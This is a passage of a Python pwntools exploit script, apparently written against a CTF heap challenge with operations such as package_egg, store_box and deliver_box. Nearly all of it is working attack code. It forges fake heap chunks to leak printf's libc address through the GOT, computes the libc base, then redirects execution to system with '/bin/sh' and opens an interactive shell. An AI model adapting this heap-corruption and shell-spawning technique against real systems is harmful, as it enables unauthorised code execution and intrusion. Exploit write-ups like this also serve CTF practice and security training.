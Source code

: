 ```python
                0, #bk
                print_box_info_addr,
                0, #field_unknown, 0 is ok
                0, #size
                elf.got['printf'],
                8
                ]
payload = p64((heap2_base+64) | 0x3) + ''.join([p64(_) for _ in fake_chunk])
package_egg(0)
store_box()
setBoxTag(len(payload), payload) 

deliver_box(0)
switch()

package_egg(1)
switch()
store_box()
setBoxTag(1,'')
list_all()
p.recvuntil("$>>")
libc_printf = u64(p.recvn(8))
print "libc printf:", hex(libc_printf)

libc.address = libc_printf - libc.symbols['printf']
#do some clean
deliver_box(0)
switch()
switch()
###################     get shell   ####################

fake_chunk = [ 0, #fd, points to self
                0, #bk
                libc.symbols['system'],
                0xffffffffffffffff - abs(libc.search('/bin/sh').next()-(heap2_base+64)) + 1, #field_unknown
                0, #size
                heap2_base,
                8
                ]
for _ in fake_chunk:
    print _
payload = p64((heap2_base+64) | 0x3) + ''.join([p64(_) for _ in fake_chunk])
package_egg(0)
store_box()
setBoxTag(len(payload), payload) 

deliver_box(0)
switch()

package_egg(1)
switch()
store_box()
setBoxTag(1,'')
list_all()
p.interactive()

```

